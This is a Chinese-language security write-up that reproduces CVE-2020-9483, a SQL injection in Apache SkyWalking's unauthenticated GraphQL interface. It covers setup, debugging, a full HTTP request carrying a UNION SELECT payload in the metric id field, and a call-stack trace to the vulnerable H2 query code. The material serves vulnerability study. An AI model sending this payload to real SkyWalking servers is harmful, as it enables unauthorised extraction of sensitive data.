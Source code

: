 # Apache SkyWalking graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 漏洞影响

<a-checkbox checked>Apache SkyWalking 6.0.0~6.6.0</a-checkbox></br>

<a-checkbox checked>Apache SkyWalking 7.0.0</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz</a-checkbox></br>

<a-checkbox checked>https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz</a-checkbox></br>

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh  通过IDEA进行远程调试

```sh
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1

```

配置IDEA  JVM Debug![img](../../../.vuepress/public/img/1650592340016-fcbc91f2-5443-4dd3-b726-5fabfe109617.png)

查看CVE的修复commit寻找修复的地方

![img](../../../.vuepress/public/img/1650592523770-e6ea155d-4e62-426a-82d1-c9acd7359846.png)

打下断点并发送Payload请求包

```php
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![img](../../../.vuepress/public/img/1650592654329-a18480bd-82f4-41df-bdb5-d99056a6637a.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![img](../../../.vuepress/public/img/1650592691209-1c8ccadd-47d7-4c67-9cbe-4a6f74738957.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96) 

![img](../../../.vuepress/public/img/1650592955431-233dff33-a8c7-4d6f-a149-472005e5aee5.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![img](../../../.vuepress/public/img/1650593267061-cc90dfbe-c500-42a8-813c-f76d13383367.png)

调用栈如下

```java
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```